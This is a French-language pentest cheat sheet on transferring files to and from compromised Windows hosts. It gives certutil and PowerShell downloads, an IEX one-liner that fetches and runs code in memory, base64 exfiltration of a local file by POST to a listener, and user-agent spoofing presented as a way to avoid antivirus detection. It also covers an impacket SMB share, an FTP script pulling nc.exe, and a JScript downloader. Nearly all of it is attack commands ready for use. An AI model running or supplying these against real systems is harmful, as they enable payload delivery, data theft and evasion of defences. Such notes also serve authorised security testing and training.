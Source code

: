 # Windows File Transfers

## Certutil 

```sh
certutil -split -f -urlcache http://192.168.81.128/file.ext
```

## PowerShell

```c
(New-Object System.Net.WebClient).DownloadFile('http://SERVER/file.ext', 'c:\temp\output_file.ext')
```

Téléchargée et exécutée en mémoire

```c
IEX (New-Object Net.WebClient).DownloadString('http://SERVER/file.ext')

Invoke-WebRequest 'http://SERVER/file.ext' -UseBasicParsing | IEX
```

Invoke-WebRequest & Invoke-RestMethod

```sh
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\temp\file.ext' -Encoding Byte))
Invoke-WebRequest -Uri 'http://SERVER:PORT' -Method POST -Body $b64

## Après avoir récupéré les données base64 avec Netcat, la charge utile peut être décodée.
echo <base64> | base64 -d -w 0 > output_file.ext
```

**Éviter la détection des AV**

Changer le user agent et liste les User-Agent

```sh
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl


Invoke-WebRequest 'http://SERVER/file.ext' -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\temp\output_file.ext"
```

## SMB

Mapper / Monter les disques

```sh
impacket-smbserver share . -smb2support
```

Monter le partage dans Ce PC

```c
net use Q: \\<IP>\share 
```

Acceder au partage en CLI

```c
PS> pushd \\<IP>\share
```

## FTP
Mettre ce contenu dans un fichier `ftp-script.txt`

```sh
open <IP>
anonymous
anonymous
lcd C:\Temp
get nc.exe
quit
```

Se connecter au FTP en utilisant le fichier `ftp-script.txt`

```sh
ftp -v -n -s:ftp-script.txt
```

## Javascript
Code dans un fichier `wget.js`

```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

```sh
cscript /nologo wget.js http://SERVER/file.ext output_file.ext
```
